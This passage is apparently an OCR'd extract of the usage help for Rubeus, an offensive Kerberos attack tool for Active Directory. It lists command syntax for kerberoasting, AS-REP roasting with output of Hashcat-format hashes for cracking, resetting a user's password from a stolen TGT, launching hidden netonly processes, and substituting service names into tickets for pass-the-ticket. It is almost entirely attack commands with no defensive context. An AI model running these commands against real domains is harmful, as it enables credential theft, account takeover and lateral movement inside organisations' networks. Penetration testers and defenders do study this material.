 ```powershell

        Rubeus.exe kerberoast /aes [/nowrap]



    Perform AS-REP "roasting" for any users without preauth:

        Rubeus.exe asreproast [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] [/nowrap]



    Perform AS-REP "roasting" for any users without preauth, outputting Hashcat format to a file:

        Rubeus.exe asreproast /outfile:hashes.txt /format:hashcat [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."]



    Perform AS-REP "roasting" for any users without preauth using alternate credentials:

        Rubeus.exe asreproast /creduser:DOMAIN.FQDN\USER /credpassword:PASSWORD [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU,..."] [/nowrap]





 Miscellaneous:



    Create a hidden program (unless /show is passed) with random /netonly credentials, displaying the PID and LUID:

        Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" [/show]



    Reset a user's password from a supplied TGT (AoratoPw):

        Rubeus.exe changepw </ticket:BASE64 | /ticket:FILE.KIRBI> /new:PASSWORD [/dc:DOMAIN_CONTROLLER]



    Calculate rc4_hmac, aes128_cts_hmac_sha1, aes256_cts_hmac_sha1, and des_cbc_md5 hashes:

        Rubeus.exe hash /password:X [/user:USER] [/domain:DOMAIN]



    Substitute an sname or SPN into an existing service ticket:

        Rubeus.exe tgssub </ticket:BASE64 | /ticket:FILE.KIRBI> /altservice:ldap [/ptt] [/luid] [/nowrap]

        Rubeus.exe tgssub </ticket:BASE64 | /ticket:FILE.KIRBI> /altservice:cifs/computer.domain.com [/ptt] [/luid] [/nowrap]

    

    Display the current user's LUID:
```
